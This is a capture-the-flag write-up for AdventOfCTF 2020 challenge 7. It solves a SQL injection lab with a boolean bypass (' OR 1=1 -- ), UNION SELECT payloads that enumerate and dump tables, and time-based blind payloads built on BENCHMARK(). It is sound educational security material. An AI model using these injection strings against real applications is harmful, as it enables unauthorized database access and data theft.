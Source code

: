+++
author = "Maik de Kruif"
title = "Blind"
subtitle = "Challenge 7 - AdventOfCTF"
date = 2020-12-07T16:43:23+01:00
description = "A writeup for challenge 7 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/9fac6046540f4972c60f458b94aacb1d.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_7"
]
+++

- Points: 700

## Description

Santa has a naughty list, I wonder who is on it? I hope it is not the blind mice!

Visit <https://07.adventofctf.com> to start the challenge.

## Finding the vulnerability

When opening the challenge website, we, yet again, see a search bar. Could this be another SQL Injection challenge? Let's try `'`. No result, bet the column name is also gone, so it probably do some SQL injection.

### SQL Injection

This time, no error message is shown. But the output is! (I'll get back to that later 😀.) First of all, let's get an idea of what the query to the database might be. I could be this:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

If this were the query, we can easily try to just get all records. To do this, we need to modify the `WHERE` statement to always be true. A way to do this is to add a `OR 1=1 -- ` to the query as `1` is always equal to `1`. But how do we do that? Well, is the backend doesn't properly create a query, we can escape the string inside the `WHERE` query and add our own code. An example input would be `' OR 1=1 -- `. If this would be inserted inside the query we would get this:

```sql
SELECT why FROM naughty WHERE why LIKE '%' OR 1=1 -- %';
```

If we input this (`' OR 1=1 -- `) in the search field, we get the flag! It is `NOVI{bl1nd_sql1_is_naughty}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#7-8).

## Part 2

This, however, wasn't the solution the creator ([@credmp](https://twitter.com/credmp)) had intended. So he added another challenge. The description was this:

> Challenge 7 had a very unintended easy solution. This was my mistake and it did not surface during playtesting. In order to make it worth your while to solve the challenge in the intended way, please enter the username of the user on the naughty list to receive some additional (possibly very important) points

We can, however, solve this challenge in an unintended way as well 😀.

### Table name

Let's have a look at our guessed query again:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

This time, we probably want to get some other columns from the database. To do this, we have to know the table name first. A query to get all tables from a MySQL database is the following:

```sql
SELECT table_name FROM information_schema.tables --
```

If we adjust this query to be injectable in the original query, we get this:

```text
' UNION SELECT table_name FROM information_schema.tables --
```

Which, inside the query would look like the following:

```sql
SELECT why FROM naughty WHERE why LIKE '%' UNION SELECT table_name FROM information_schema.tables -- %';
```

Here we use a `UNION SELECT` to add rows from another table in to the results. The result of this input contains lots of rows, but if we strip the default ones, we get are left with one row:

| Who?    |
| ------- |
| naughty |

### Column names

Now that we know the table name, we can then get the columns from it with this query:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = "naughty"
```

If we convert this to an input, we get `' UNION SELECT column_name FROM information_schema.columns WHERE table_name = "naughty" -- `. This return the following rows:

| Who?     |
| -------- |
| id       |
| username |
| badthing |

### Table content

Knowing the table and column names, we can get all rows in the table. This output of the original query, however, only has one row. Because of this, we have to concatenate the results of the different columns together. A query for this would be:

```sql
SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty
```

Converted to an input we get `' UNION SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty -- `, which, after submitting it, gives us one row:

| Who?                                        |
| ------------------------------------------- |
| 1 \| egische \| NOVI{bl1nd_sql1_is_naughty} |

As the username is the second column, it is "egische".

This flag can then be submitted [here](<https://ctfd.adventofctf.com/challenges#Challenge%207%20(additional)-26>).

## The actual intended solution

The intended way to solve this challenge was to use blind SQL injection. Which means you do not get a visual response. You might think "How is that possible without a result?". It's actually pretty easy but it takes some time. A way to do it is to make queries take a long time if the query returns a row, but not wait if the result has zero rows.

### Database name

For instance, let's say the query in the backend is the following:

```sql
SELECT why FROM naughty WHERE other_column = 'search text';
```

To get the database name, we could write a query that takes some time if a sub-query returns a result and doesn't if it doesn't. An example of such a query would be the following:

```sql
SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

This would run `BENCHMARK(9000000,MD5(1))` if the sub-query returns more than 1 row. The `BENCHMARK()` is used because it's a function that takes a while to run.

This query will have to be converted to an input first. This will become `' UNION SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

If we replace `a` with another letter we can find out the database name like this:

```text
a
b
...
t
ta
...
te
tea
...
tes
...
testdb
```

This will, of course, take some time.

### Other tables

To get the tables inside the database, the same method will have to be used. An example query for this would be the following:

```sql
SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

Which will convert to `' UNION SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

By using this method, we can get the all database records but it will take a long time.
